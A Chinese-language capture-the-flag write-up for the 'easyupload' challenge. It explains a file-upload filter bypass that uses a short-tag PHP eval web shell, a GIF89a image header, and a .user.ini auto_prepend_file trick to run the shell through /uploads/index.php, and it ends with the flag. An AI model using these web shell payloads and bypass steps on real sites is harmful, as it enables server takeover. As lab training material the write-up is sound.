

# easyupload

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=50df7052-1626-11ed-9827-fa163e4fa633)

1级的题也是可以让我学习到很多的。

进来只有一个上传文件的页面。题目描述提到了后门，那就不装了，直接尝试传一句话木马并抓包更改文件名。

```php
<?php @eval($_POST['shell']);?>
```

但是我发现不行。看[wp](https://blog.csdn.net/qq_56426046/article/details/126563269)发现不止有改文件名这个点可以绕过。首先服务器似乎检测了文件名，传什么文件抓的包中的filename字段就要写什么文件，不能先改成shell.png然后抓包改成shell.php。

其次是短标签。就算不改后缀名保留shell.jpg也会显示上传失败，故猜测同时判断了文件内容。这有很多种绕过的方式，这里需要将一句话木马改为短标签，也就是没有php的形式。

```php
<?=@eval($_POST['shell']);?>
```

问题来了：改了文件名绕不过去，不改文件名无法识别木马。还能咋办？永远不要低估黑客的脑洞，介绍一个[奇妙文件](https://www.cnblogs.com/anbuxuan/p/11812573.html).user.ini。这篇文章最后提到了.user.ini文件的使用场景。

- 某网站限制不允许上传.php文件，你便可以上传一个.user.ini，再上传一个图片马，包含起来进行getshell。不过前提是含有.user.ini的文件夹下需要有正常的php文件，否则也不能包含了。

这个场景是不是完全一致？我们先正常上传一个图片，发现上传路径在/uploads下。.user.ini文件要求这个路径下也有一个php文件。这不巧了吗，开发者工具点到提交按钮会发现文件会被提交到/uploads/index.php文件下，完美符合要求。

所以上传木马的步骤如下。首先上传一个名叫.user.ini的文件，内容如下。

- GIF89a
<br>auto_prepend_file=shell.png

发送的时候要抓包改content-type。格式最好像图片这样，上面空一行下面空一行，内容连在一起。不这样干可能会有奇奇怪怪的bug（不知道是不是我卡了,接下来的shell.png最好也这样）。



GIF89a是漫天过海的图片文件头，相信大家都不陌生。有了这个文件，php会自动在每一个php文件开头加上指定的文件shell.png。这个png肯定暗藏玄机，比如藏个木马之类的。shell.png内容如下。

- GIF89a
<br><?=@eval($_POST['shell']);?>

然后蚁剑链接，注意连接的路径为/uploads/index.php。flag在根目录下。

- ### Flag
  > cyberpeace{c8e1b1fa9593dc82d208c0966f5abd74}